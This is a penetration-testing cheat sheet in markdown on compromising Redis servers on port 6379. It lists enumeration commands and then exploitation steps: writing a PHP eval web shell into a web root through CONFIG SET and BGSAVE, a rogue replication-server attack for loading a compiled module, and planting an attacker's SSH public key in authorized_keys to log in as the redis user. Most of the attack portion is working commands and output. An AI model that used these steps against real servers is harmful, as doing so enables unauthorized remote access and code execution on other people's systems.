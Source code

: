 ```yaml
---
id: services
aliases: []
tags: []
---
```

# Services 
[[#Redis /6379]]
  
  
## Redis /6379
> Redis is an open source, in-memory data structure store, used as a database, cache and message broker.

### Enumeration:    
```bash
   nmap --script redis-info -sV -p 6379 <IP>
   msf> use auxiliary/scanner/redis/redis_server
 ```
### Commands:
> [Cheat-Sheet](https://lzone.de/#/LZone%20Cheat%20Sheets/DevOps%20Services/Redis)

### Exploitation
> #### Authentication:
> ***Brute force***

1. **Easy**:
> [!IMPORTANT] Must have rights to access the dir / Must know the web root dir
```redis 
CONFIG SET
1. Change database file location
CONFIG SET dir /var/www/uploads/
2. Change database file name
CONFIG SET dbfilename sh.php
3. Inject your shell payload into database
SET PAYLOAD '<?php eval($_GET[0]);?>'
4. Save database to file
BGSAVE
```
2. **[Redis-rogue-server.py](https://github.com/n0b0dyCN/redis-rogue-server)** 
> Sets a redis server which operates as a master and sends commands and writes to files to target with partial or total resynchronization 
```redis
rogue server
1. PING - test if a connection is still alive
+PONG
2. REPLCONF - exchange replication information between
master and slave
+OK
3. PSYNC/SYNC <replid> - synchronize slave state with
the master (partial or full)
+CONTINUE <replid> 0
[Source](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)
```

> [!note]
> Compile the .so on your machine
> run `redis-cli -h <IP> flushall` to remove all changes otherwise it can give an error  

```

3. **ssh** :
>Generate a ssh public-private key pair on your pc: 

   `ssh-keygen -t rsa`

> Write the public key to a file : 

  `(echo -e "u\n\nu"; cat ~/id_rsa.pub; echo -e "\n\n") > spaced_key.txt`

> Import the file into redis : 

`cat spaced_key.txt | redis-cli -h 10.85.0.52 -x set ssh_key`

> Save the public key to the authorized_keys file on redis server:

```
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /var/lib/redis/.ssh
OK
10.85.0.52:6379> config set dbfilename "authorized_keys"
OK
10.85.0.52:6379> save
OK
```

> Finally, you can ssh to the redis server with private key : 

`ssh -i id_rsa redis@10.85.0.52 `

### ***Tags***:
| OS | Vuln versions | Techniques |
|----| ------------- | ---------- |
| Windows, Linux | 4 - 5  | SSRF, SSH, Reverse-shell, Web-shell  |
 



